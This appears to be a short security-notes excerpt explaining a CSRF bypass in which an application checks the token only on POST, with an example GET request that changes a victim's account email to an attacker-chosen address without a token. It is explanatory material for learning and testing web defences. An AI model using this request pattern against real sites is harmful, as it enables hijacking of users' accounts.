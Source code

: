 Some applications only validates the CSRF token if the request uses the `POST` method, leading to other request methods not validating the token. This leads to an attacker simply switching to `GET` method, for example, to bypass the validation and deliver an attack.

Correct request:
```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

CSRF bypass request:
```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```